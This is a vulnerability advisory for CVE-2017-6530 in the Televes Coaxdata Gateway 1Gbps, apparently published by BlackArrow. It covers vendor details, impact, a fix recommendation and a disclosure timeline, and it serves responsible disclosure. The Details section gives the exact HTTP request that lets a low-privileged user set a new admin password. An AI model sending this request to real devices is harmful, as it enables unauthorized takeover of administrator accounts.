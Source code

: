 # CVE-2017-6530: Arbitrary password change in Televes Coaxdata Gateway 1Gbps

## Software
[![](https://img.shields.io/badge/Attack%20Vector-Remote-red?style=flat-square)]() [![](https://img.shields.io/badge/Privileges%20Required-Low-yellow?style=flat-square)]() [![](https://img.shields.io/badge/User%20Interaction-No-red?style=flat-square)]()

__Vendor:__ Televes<br>
__Vendor URL:__ https://www.televes.com<br>
__Versions affected:__ Televes Coaxdata Gateway 1Gbps<br>
__Discovered by:__ Pedro Andujar ([@pandujar](https://twitter.com/pandujar))<br>
__Public fix:__ Yes<br>
__Proof of Concept:__ No<br>

## Summary
A restricted user can modify the Admin password.

## Details
An authenticated low privileged user can modify the Admin password using the following request:

```
http://TARGET/password.shtml?DeviceInfo.X_ATH-COM_TeleComAccount.Password=<New_Arbitrary_Password>
```

## Impact
This vulnerability can be exploited to do an account takeover of the admin user.

## Recommendation
Update the firmware to last version and block the adminsitration web interface on the internet or untrusted networks.

## Timeline
* 27/2/2017 - Reported vulnerability to vendor
* 28/2/2017 - Technical details sent on a 2nd contact attempt
* 01/3/2017 - Manufacturer acknowledge the issues and stats that restricted user would be removed from future releases
* 13/7/2017 - Follow up email related to resolution. No response
* 20/7/2017 - Public Disclosure

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)